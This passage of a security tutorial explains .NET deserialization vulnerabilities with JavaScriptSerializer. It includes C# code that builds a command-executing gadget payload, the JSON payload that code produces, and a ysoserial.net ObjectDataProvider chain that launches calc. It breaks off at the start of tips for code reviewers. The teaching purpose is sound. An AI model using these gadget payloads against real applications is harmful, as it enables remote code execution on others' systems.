 As you can see, the serializer is unsafely used to deserialize an expected Desert object. However, the type definition on the deserializer doesn't forbid the deserialization of unknown objects, as `JavaScriptSerializer` doesn't perform any kind of whitelisting or object inspection. As such, like we previously explained, the `RCE` class can be used as a valid gadget, triggering a remote command execution during the deserialization process. 

To build a successful payload, the following code can be used:

```csharp
public static void jsonRCESerial(string filename)
{
    filename += ".json";
    var desert = new RCE();
    desert.cmd = "calc.exe";
    // Persist to file
    using (StreamWriter stream = File.CreateText(filename))
    {
        Console.WriteLine("Serializing RCE");
        JavaScriptSerializer serializer = new JavaScriptSerializer();
        stream.Write(serializer.Serialize(desert));
    }
}
```
Which would produce the following payload:

```bash
{"__type":"BinarySerialization.RCE, BinarySeriliazer, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null","cmd":"calc.exe"}
```

Of course, it is also possible to generate an exploitation payload using `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f JavaScriptSerializer -c "calc" -o raw
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```

**Tips for Source Code reviewers**

To find this kind of vulnerability it is usually a good start to search the code for common regexes, like: 
